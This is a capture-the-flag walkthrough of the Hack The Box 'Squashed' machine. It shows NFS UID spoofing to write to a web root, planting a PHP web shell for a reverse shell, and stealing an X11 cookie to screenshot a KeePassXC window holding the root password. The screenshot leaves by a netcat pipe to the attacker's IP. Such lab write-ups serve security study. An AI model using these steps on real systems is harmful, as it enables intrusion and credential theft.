

# Squashed

This is the write-up for Squashed machine from Hack The Box.

# Reconnainssance

First, we execute a full port scan on the host.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]                                                            [16/16]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.191

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
```

After, we execute a port scan only on the open ports.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo nmap -vv -A -Pn -p 22,80,111,2049 -oA nmap/squashed 10.10.11.191

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1
TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQ
A5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXE
St3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7
nnveA8vUz0D7ug5n04A=
|   256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
111/tcp  open  rpcbind syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42853/tcp6  mountd
|   100005  1,2,3      46173/tcp   mountd
|   100005  1,2,3      47230/udp   mountd
|   100005  1,2,3      55712/udp6  mountd
|   100021  1,3,4      39331/udp6  nlockmgr
|   100021  1,3,4      41701/tcp6  nlockmgr
|   100021  1,3,4      41979/tcp   nlockmgr
|   100021  1,3,4      52221/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl syn-ack ttl 63 3 (RPC #100227)
```

# Enumeration

Accessing the website on port 80, we got.



We execute a brute-force directory attack on the / end point but we found nothing interesting.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ gobuster dir -e -u http://10.10.11.191/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -t 40 -o gobuster/squashed

http://10.10.11.191/css                  (Status: 301) [Size: 310] [--> http://10.10.11.191/css/]                                             
http://10.10.11.191/.php                 (Status: 403) [Size: 277]                                                                            
http://10.10.11.191/images               (Status: 301) [Size: 313] [--> http://10.10.11.191/images/]                                          
http://10.10.11.191/js                   (Status: 301) [Size: 309] [--> http://10.10.11.191/js/]
```

We go for NFS port (2049) and we execute `showmount` command.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

We mount the ross home directory and got.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo mount -t nfs 10.10.11.191:/home/ross /mnt
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ ls -la /mnt
total 64
drwxr-xr-x 14 1001 scanner 4096 mai 21 19:09 .
drwxr-xr-x  1 root root     262 mai 13 16:20 ..
lrwxrwxrwx  1 root root       9 out 20  2022 .bash_history -> /dev/null
drwx------ 11 1001 scanner 4096 out 21  2022 .cache
drwx------ 12 1001 scanner 4096 out 21  2022 .config
drwxr-xr-x  2 1001 scanner 4096 out 21  2022 Desktop
drwxr-xr-x  2 1001 scanner 4096 out 21  2022 Documents
drwxr-xr-x  2 1001 scanner 4096 out 21  2022 Downloads
drwx------  3 1001 scanner 4096 out 21  2022 .gnupg
drwx------  3 1001 scanner 4096 out 21  2022 .local
drwxr-xr-x  2 1001 scanner 4096 out 21  2022 Music
drwxr-xr-x  2 1001 scanner 4096 out 21  2022 Pictures
drwxr-xr-x  2 1001 scanner 4096 out 21  2022 Public
drwxr-xr-x  2 1001 scanner 4096 out 21  2022 Templates
drwxr-xr-x  2 1001 scanner 4096 out 21  2022 Videos
lrwxrwxrwx  1 root root       9 out 21  2022 .viminfo -> /dev/null
-rw-------  1 1001 scanner   57 mai 21 19:09 .Xauthority
-rw-------  1 1001 scanner 2475 mai 21 19:09 .xsession-errors
-rw-------  1 1001 scanner 2475 dez 27 11:33 .xsession-errors.old
```

We can see that it is showing 1001 group and id user because on our attack machine there isn't any user our group with this id. NFS doesn’t track users / groups across machines. It just knows the ids, and uses the local system for that. For example, if I change the test user to userid 1001, and the test group to groupid 1001, then it looks like these files are owned by test.

We create a user test on our attack machine.

```bash
[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo useradd test

th3g3ntl3m4n:x:1000:1003:th3g3ntl3m4n:/home/th3g3ntl3m4n:/bin/bash
_rpc:x:133:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:134:65534::/var/lib/nfs:/usr/sbin/nologin
test:x:1001:1004::/home/test:/bin/sh
```

We can't do much in the home directory folder, so we mount the web folder.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo umount /mnt
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo mount -t nfs 10.10.11.191:/var/www/html /mnt
```

We weren't able to access nothing in this mount.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ find /mnt -ls
   133456      4 drwxr-xr--   5 2017     www-data     4096 mai 22 22:00 /mnt
find: ‘/mnt/.htaccess’: Permission denied
find: ‘/mnt/index.html’: Permission denied
find: ‘/mnt/images’: Permission denied
find: ‘/mnt/css’: Permission denied
find: ‘/mnt/js’: Permission denied

─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ ls -la /mnt
ls: cannot access '/mnt/.': Permission denied
ls: cannot access '/mnt/..': Permission denied
ls: cannot access '/mnt/.htaccess': Permission denied
ls: cannot access '/mnt/index.html': Permission denied
ls: cannot access '/mnt/images': Permission denied
ls: cannot access '/mnt/css': Permission denied
ls: cannot access '/mnt/js': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
?????????? ? ? ? ?            ? css
?????????? ? ? ? ?            ? .htaccess
?????????? ? ? ? ?            ? images
?????????? ? ? ? ?            ? index.html
?????????? ? ? ? ?            ? js
```

Looking at the directory itself, it seems to be owned by userid 2017 and groupid of www-data on my system, which is 33:

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ ls -ld /mnt
drwxr-xr-- 5 2017 www-data 4096 mai 22 22:00 /mnt
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ cat /etc/group | grep www-data
www-data:x:33:
```

As we know the web root has userid 2017 and groupid 33, we set our test user created before to this ids.

 

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo usermod -u 2017 test
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo su test -c bash
bash: cannot set terminal process group (4617): Inappropriate ioctl for device
bash: no job control in this shell
┌─[test@parrot]─[/home/th3g3ntl3m4n/htb/machines/squashed]
└──╼ $id
uid=2017(test) gid=1004(test) groups=1004(test)
```

Now we can read the share.

```bash
┌─[test@parrot]─[/home/th3g3ntl3m4n/htb/machines/squashed]
└──╼ $ls -la /mnt
total 52
drwxr-xr-- 5 test www-data  4096 mai 22 22:05 .
drwxr-xr-x 1 root root       262 mai 13 16:20 ..
drwxr-xr-x 2 test www-data  4096 mai 22 22:05 css
-rw-r--r-- 1 test www-data    44 out 21  2022 .htaccess
drwxr-xr-x 2 test www-data  4096 mai 22 22:05 images
-rw-r----- 1 test www-data 32532 mai 22 22:05 index.html
drwxr-xr-x 2 test www-data  4096 mai 22 22:05 js
```

We write a html test file in web root and tried to access it on our browser.

```bash
┌─[test@parrot]─[/home/th3g3ntl3m4n/htb/machines/squashed]
└──╼ $echo 'th3g3ntl3m4n' > /mnt/th3g3ntl3m4n.html
```


Now, we write down our php webshell on this web root directory, because reading the `.htaccess` file we could see this web server runs php.


```bash
┌─[test@parrot]─[/home/th3g3ntl3m4n/htb/machines/squashed]
└──╼ $ls -la /mnt
total 56
drwxr-xr-- 5 test www-data  4096 mai 22 22:15 .
drwxr-xr-x 1 root root       262 mai 13 16:20 ..
drwxr-xr-x 2 test www-data  4096 mai 22 22:15 css
-rw-r--r-- 1 test www-data    44 out 21  2022 .htaccess
drwxr-xr-x 2 test www-data  4096 mai 22 22:15 images
-rw-r----- 1 test www-data 32532 mai 22 22:15 index.html
drwxr-xr-x 2 test www-data  4096 mai 22 22:15 js
-rw-r--r-- 1 test test        29 mai 22 22:15 th3.php
```

Accessing our webshell we got.


We send our payload on our web shell.


And check our listener.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo python3 -m pwncat -lp 443
[22:24:42] Welcome to pwncat 🐈!                                                                                               __main__.py:164
[22:26:08] received connection from 10.10.11.191:42846                                                                              bind.py:84
[22:26:14] 10.10.11.191:42846: registered new host w/ db                                                                        manager.py:957
(local) pwncat$                                                                                                                               
(remote) alex@squashed.htb:/var/www/html$ id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
```

Next, we improve our access using the SSH service by generating ssh keys for user alex.

```bash
(remote) alex@squashed.htb:/home/alex$ mkdir .ssh
(remote) alex@squashed.htb:/home/alex$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/alex/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/alex/.ssh/id_rsa
Your public key has been saved in /home/alex/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:FrmnXPEsHlUsXLzYDHmmW1x+q4/ZNXZWcz/t7qb7XKg alex@squashed.htb
The key's randomart image is:
+---[RSA 3072]----+
|           . =o  |
|         .  =.= .|
|        o . .@ + |
|         o =o * o|
|        S = oo .=|
|       o = o.  o*|
|        o .   o+B|
|             o=+B|
|            Eo+X*|
+----[SHA256]-----+
```

Now we copied the private key to our attack machine, write down alex’s public key in authorized_keys file and connect on the SSH service.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ ssh -i alex.privkey alex@10.10.11.191
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 23 May 2023 09:42:45 AM UTC

  System load:             0.0
  Usage of /:              74.1% of 5.79GB
  Memory usage:            31%
  Swap usage:              0%
  Processes:               252
  Users logged in:         1
  IPv4 address for ens160: 10.10.11.191
  IPv6 address for ens160: dead:beef::250:56ff:feb9:54bc

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Oct 31 10:19:35 2022 from 10.10.14.12
alex@squashed:~$
```

# Privilege Escalation

Searching for some path to privilege our escalation, we notice that there is a .Xauthority that could be useful to us to achieve it . We found this discussion about this file.

[How does X11 authorization work? (MIT Magic Cookie)](https://stackoverflow.com/a/37367518)

```bash
alex@squashed:/home/ross$ ls -la
total 68
drwxr-xr-x 14 ross ross 4096 May 23 05:46 .
drwxr-xr-x  4 root root 4096 Oct 21  2022 ..
-rw-------  1 ross ross   57 May 23 05:46 .Xauthority
lrwxrwxrwx  1 root root    9 Oct 20  2022 .bash_history -> /dev/null
drwx------ 11 ross ross 4096 Oct 21  2022 .cache
drwx------ 12 ross ross 4096 Oct 21  2022 .config
drwx------  3 ross ross 4096 Oct 21  2022 .gnupg
drwx------  3 ross ross 4096 Oct 21  2022 .local
lrwxrwxrwx  1 root root    9 Oct 21  2022 .viminfo -> /dev/null
-rw-------  1 ross ross 2475 May 23 05:46 .xsession-errors
-rw-------  1 ross ross 2475 Dec 27 15:33 .xsession-errors.old
drwxr-xr-x  2 ross ross 4096 Oct 21  2022 Desktop
drwxr-xr-x  2 ross ross 4096 Oct 21  2022 Documents
drwxr-xr-x  2 ross ross 4096 Oct 21  2022 Downloads
drwxr-xr-x  2 ross ross 4096 Oct 21  2022 Music
drwxr-xr-x  2 ross ross 4096 Oct 21  2022 Pictures
drwxr-xr-x  2 ross ross 4096 Oct 21  2022 Public
drwxr-xr-x  2 ross ross 4096 Oct 21  2022 Templates
drwxr-xr-x  2 ross ross 4096 Oct 21  2022 Videos
```

We enumerate what display is currently connected like. As we can see, user ross is connected and using the display 0.

```bash
alex@squashed:/home/ross$ w
 12:35:14 up  6:49,  2 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               05:46    6:49m 55.93s  0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
alex     pts/1    10.10.14.158     09:42    1.00s  0.03s  0.00s w
```

We tried to verify if the cookie works, but we fail because we can't enumerate it as user alex.

```bash
alex@squashed:/home/ross$ xdpyinfo -display :0
No protocol specified
xdpyinfo:  unable to open display ":0".
alex@squashed:/home/ross$ xwininfo -root -tree -display :0
No protocol specified
xwininfo: error: unable to open display ":0"
```

In order to be successful of it, we upload the `.Xauthority` file from our mounted partition on our attack machine.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]                                                              [2/2]
└──╼ [★]$ sudo mkdir mnt_ross                                                                                                                 

─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ sudo mount -t nfs 10.10.11.191:/home/ross mnt_ross/           
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/squashed]
└──╼ [★]$ cd mnt_ross/

─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/mnt_ross]
└──╼ [★]$ ls -la
total 64
drwxr-xr-x 14         1001 scanner      4096 mai 23 01:46 .
drwxr-xr-x  1 th3g3ntl3m4n th3g3ntl3m4n  134 mai 23 08:41 ..
lrwxrwxrwx  1 root         root            9 out 20  2022 .bash_history -> /dev/null
drwx------ 11         1001 scanner      4096 out 21  2022 .cache
drwx------ 12         1001 scanner      4096 out 21  2022 .config
drwxr-xr-x  2         1001 scanner      4096 out 21  2022 Desktop
drwxr-xr-x  2         1001 scanner      4096 out 21  2022 Documents
drwxr-xr-x  2         1001 scanner      4096 out 21  2022 Downloads
drwx------  3         1001 scanner      4096 out 21  2022 .gnupg
drwx------  3         1001 scanner      4096 out 21  2022 .local
drwxr-xr-x  2         1001 scanner      4096 out 21  2022 Music
drwxr-xr-x  2         1001 scanner      4096 out 21  2022 Pictures
drwxr-xr-x  2         1001 scanner      4096 out 21  2022 Public
drwxr-xr-x  2         1001 scanner      4096 out 21  2022 Templates
drwxr-xr-x  2         1001 scanner      4096 out 21  2022 Videos
lrwxrwxrwx  1 root         root            9 out 21  2022 .viminfo -> /dev/null
-rw-------  1         1001 scanner        57 mai 23 01:46 .Xauthority
-rw-------  1         1001 scanner      2475 mai 23 01:46 .xsession-errors
-rw-------  1         1001 scanner      2475 dez 27 11:33 .xsession-errors.old
```

Now we up a python http server on the directory mounted and downloaded the file from the target host.


We couldn't enumerate through the commands even passing the `.Xauhtority` file. So we try to take a screenshot from Desktop of user ross. Note that on `/tmp` directory there is some kpass files that could be helpful to us.


Checking the file we downloaded from out mount partition, we couldn't download it, so we create a new user on our local machine called hacker and change his uid and gid.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/mnt_ross]
└──╼ [★]$ sudo usermod -g 1001 hacker
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/mnt_ross]
└──╼ [★]$ sudo usermod -u 1001 hacker
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/mnt_ross]
└──╼ [★]$ cat /etc/passwd | grep hacker
hacker:x:1001:1001::/home/hacker:/bin/sh
```

Now we can take a screenshot using this file.

```bash
alex@squashed:~$ XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -display :0 > /tmp/th3g3ntl3m4n.xwd
alex@squashed:~$ file /tmp/th3g3ntl3m4n.xwd 
/tmp/th3g3ntl3m4n.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
```

And now we are able to enumerate the X11 functionalities.

```bash
alex@squashed:~$ XAUTHORITY=/tmp/.Xauthority xwininfo -root -tree -display :0 | more

xwininfo: Window id: 0x533 (the root window) (has no name)

  Root window id: 0x533 (the root window) (has no name)
  Parent window id: 0x0 (none)
     26 children:
     0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
        1 child:
        0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
     0x800021 (has no name): ()  802x575+-1+26  +-1+26
        1 child:
        0x1e00006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64
           1 child:
           0x1e000fe "Qt NET_WM User Time Window": ()  1x1+-1+-1  +-1+63
     0x1e00008 "Qt Client Leader Window": ()  1x1+0+0  +0+0
     0x800017 (has no name): ()  1x1+-1+-1  +-1+-1
     0x2000001 "keepassxc": ("keepassxc" "Keepassxc")  10x10+10+10  +10+10
     0x1e00004 "Qt Selection Owner for keepassxc": ()  3x3+0+0  +0+0
```

Now we exfiltrate this screenshot file using netcat. We opened a flow on our attack box like  `nc -lnvp 8888 > screenshot.wxd`. Then on target host, we downloaded the file and redirect the flow to our listener .

```bash
alex@squashed:~$ cat /tmp/th3g3ntl3m4n.xwd | nc 10.10.14.158 8888
```


Now, we use the command display, we were able to open the screenshot file and get the root password.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/exploitation/privesc]
└──╼ [★]$ ls -la
total 1880
drwxr-xr-x 1 th3g3ntl3m4n th3g3ntl3m4n      28 mai 23 10:28 .
drwxr-xr-x 1 th3g3ntl3m4n th3g3ntl3m4n      14 mai 22 16:29 ..
-rw-r--r-- 1 th3g3ntl3m4n th3g3ntl3m4n 1923179 mai 23 10:28 screenshot.xwd
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/images/exploitation/privesc]
└──╼ [★]$ display screenshot.xwd
```


Now we log into the system as user root.

```bash
alex@squashed:/tmp$ su
Password: 
root@squashed:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```